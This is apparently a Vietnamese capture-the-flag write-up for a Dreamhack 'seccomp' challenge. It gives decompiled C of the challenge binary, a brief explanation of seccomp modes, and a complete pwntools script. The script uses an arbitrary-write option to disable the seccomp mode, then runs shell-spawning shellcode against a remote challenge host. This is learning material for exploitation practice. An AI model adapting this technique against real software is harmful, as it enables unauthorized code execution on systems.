







# Seccomp
## Chal thử.
### 1. Source.
```
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  int v3; // [rsp+18h] [rbp-28h] BYREF
  int v4; // [rsp+1Ch] [rbp-24h]
  __int64 v5; // [rsp+20h] [rbp-20h] BYREF
  void *buf; // [rsp+28h] [rbp-18h]
  void *v7; // [rsp+30h] [rbp-10h]
  unsigned __int64 v8; // [rsp+38h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  v4 = 0;
  initialize(argc, argv, envp);
  buf = mmap(0LL, 0x1000uLL, 7, 34, -1, 0LL);
  while ( 1 )
  {
    while ( 1 )
    {
      puts("1. Read shellcode");
      puts("2. Execute shellcode");
      puts("3. Write address");
      printf("> ");
      __isoc99_scanf("%d", &v3);
      if ( v3 != 2 )
        break;
      v7 = buf;
      ((void (*)(void))buf)();
    }
    if ( v3 == 3 )
    {
      printf("addr: ");
      __isoc99_scanf("%ld", &v5);
      printf("value: ");
      __isoc99_scanf("%ld", v5);
    }
    else if ( v3 == 1 )
    {
      if ( v4 )
        exit(0);
      syscall_filter();
      printf("shellcode: ");
      read(0, buf, 0x400uLL);
      ++v4;
    }
  }
}
```
### 2. Hướng giải.
- Đầu tiên ta sẽ cần phải tìm hiểu đến 2 lớp bảo vệ của `seccomp` là `STRICT_MODE` và `FILTER_MODE `.
- *`STRICT_MODE:`*
    
    - giới hạn  các quyền call vào chương trình, cụ thể là read, write, exit, sigreturn.

-*`FILTER_MODE:`*
    
    - Mode này đơn giản hơn và ít đòi hỏi hơn.


- Tìm hiểu về 2 lớp bảo vệ trên thì ta cùng khai thác chương trình, nhìn vào chall trên ta thấy 3 `option` :
    + `option 1:` là nơi chúng ta ghi shell vào.
    + `option 2:` giúp ta `execve` hay thực thi shellcode.
    + `option 3:` giúp ta nhập và 1 địa chỉ và cho phép ta ghi vào đó 1 giá trị.
- Nhưng mà bạn ơi nhìn đi:
    -
    - NX đã bật rồi ta không thể nào ghi vào stack đc mà ta sẽ phải ghi vào 1 địa chỉ khác, và chương trình cũng đã tự động điều chỉnh cho ta 1 địa chỉ phù hợp rồi :)) .
- Check source C thì ta thấy đc cái này :
    
    - 1 biến địa chỉ `mode` được khai báo dạng `STRICT` , nhưng mà ta ko nên xài `STRICT mode` mà hãy chuyển sang `FILTER mode` để dễ dàng khai thác hơn, để `shellcode` có thể thực hiện trơn tru ta có thể sử dụng `shellcraft.sh()` để đơn giản hóa `shellcode` và 
    ta sẽ sử dụng `option 3` để đưa `mode` về 1 `đối số` khác !=1 .
    - *`LƯU Ý:`* khi `mode` được khai báo kiểu này nó sẽ được truyền vào `1 đối số` là '1' cũng có thể '1' liên quan đến `STRICT` ta chỉ cần chuyển nó sang 1 'số khác' là được , tùy các bạn miến ko phải là '1' :Đ . Và ở `option 3` đã giúp chúng ta làm điều đó với thao tác nhập địa chỉ và thay đổi dữ liệu trong đó.
- Ta check địa chỉ biến `mode` để thay đổi dữ liệu: 
- Cơ bản thì source sẽ như sau: 
    - 
- Chạy thử script trên thì ta thu đc shell òi :Đ .

## Script.
```
#!/usr/bin/python3

from pwn import *

exe = ELF('seccomp', checksec=False)
# libc = ELF('0', checksec=False)
context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b
                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('host3.dreamhack.games', 24290)
else:
        p = process(exe.path)

GDB()
mode = 0x602090
shellcode = asm(shellcraft.sh())
 
p.sendlineafter(b'> ',b'3')
p.sendlineafter(b'addr: ', str(mode))
p.sendlineafter(b'value: ',b'2')

p.sendlineafter(b'> ',b'1')
p.sendafter(b'shellcode: ', shellcode)
 
p.sendlineafter(b'> ',b'2')

p.interactive()
```
